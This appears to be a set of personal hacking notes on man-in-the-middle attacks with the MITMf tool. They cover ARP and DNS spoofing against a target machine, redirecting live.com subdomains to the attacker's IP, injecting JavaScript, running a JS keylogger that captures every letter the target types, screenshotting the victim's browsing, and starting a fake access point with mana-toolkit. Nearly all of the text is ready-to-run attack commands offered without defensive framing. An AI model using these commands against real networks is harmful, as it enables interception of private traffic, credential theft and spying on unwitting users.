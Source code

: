 change *.live.com in a records to my own ip address to redirect any sub domain of live.com to my ip.

then run the following command

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --dns`

### remove and downgrade twisted package to run further mitmf commands

`rm -rf /usr/lib/python2.7/dist-packages/twisted`

`pip install Twisted==15.5.0`

### mitmf plugins

`mitmf --help`

right now there is no way to hack https with hsts

inject js code with --inject , inject key logger with --jskeylogger, take screeshots of loaded page with --screen,for best results go to http pages

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --screen`

thiscommand will take screenshots of every loaded page and --interval denotes the interval between screenshots, go to /var/log/mitmf to see ss

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --screen --interval <interval>`

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --jskeylogger`

the above command captures every letter that the target machine types

### mitmf injection

we can either inject js/html code , code can be stored in a --js-file / --html-file or stored online --js-url / --html-url or supplied through command line --js-payload / --html-payload, this method is not 100% reliable for https websites, python programming needs to be done in that case

`mitmf  --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --inject --js-payload "<js code>"`

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --inject --js-payload "alert('test')"`

`mitmf  --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0 --inject --js-file <filepath >`

### mana-toolkit / mana tool commands for creating fake access point

`apt-et install mana-toolkit`

`start-noupstream.sh`

this command starts fake AP with no internet access, never use this one
